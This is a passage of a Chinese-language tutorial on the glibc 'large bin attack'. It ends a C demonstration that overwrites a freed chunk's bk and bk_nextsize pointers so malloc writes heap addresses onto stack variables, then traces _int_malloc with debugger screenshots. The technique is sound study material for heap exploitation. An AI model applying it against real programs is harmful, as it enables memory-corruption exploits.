   ```c
              " [ %p <--> %p ]\n\n", (void *)(p3 - 2), (void *)(p3[0]));
   
       // ------------漏洞模拟-----------
   
       printf("现在模拟一个漏洞，可以覆盖已释放的第二个大块的“size”以及它的“bk”和“bk_nextsize”指针\n");
       printf("基本上，我们减少已释放的第二个大块的大小，以强制malloc在large bin空闲列表的头部插入已释放的第三个大块。"
              "为了覆盖栈变量，我们将“bk”设置为stack_var1之前的16字节，将“bk_nextsize”设置为stack_var2之前的32字节\n\n");
   
       p2[0] = 0;
       p2[2] = 0;
       p2[1] = (unsigned long)(&stack_var1 - 2);
       p2[3] = (unsigned long)(&stack_var2 - 4);
   
       // --------------------------------
   
       printf("让我们再分配一次，这样已释放的第三个大块就会被插入到large bin空闲列表中。"
              "此时，目标应该已经被重写：\n");
         
       malloc(0x90);
       printf("stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
       printf("stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);
       return 0;
   }
   ```

4. 任然快进到_int_malloc中对large bin的处理部分：

   先看一下攻击前，堆上的内容：

   ![image-20240826170657874](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408261706316.png)

   进入large bin的处理部分（前面对small bin的处理跳过）：

   任然先找到对应large bin的链首（size最大的chunk）

   ![image-20240826171051951](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408261710286.png)

   于large bin中最小的chunk比大小，通过：

   ![image-20240826171207253](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408261712634.png)

   随后向fwd->fd->bk_nextsize 写入victim地址：

   ![image-20240826172322152](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408261723593.png)

   ![image-20240826172419360](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408261724530.png)

   最后向large bin链入victim，任然是插入在bck和fwd之间，这里**没有写入第二个地址** ，因为这里的bck不是通过fwd的bk指针找到的，所以此时的bck是正常large bin中的chunk：

   ![image-20240826174452418](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408261744544.png)

   ![image-20240826174607002](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408261746506.png)
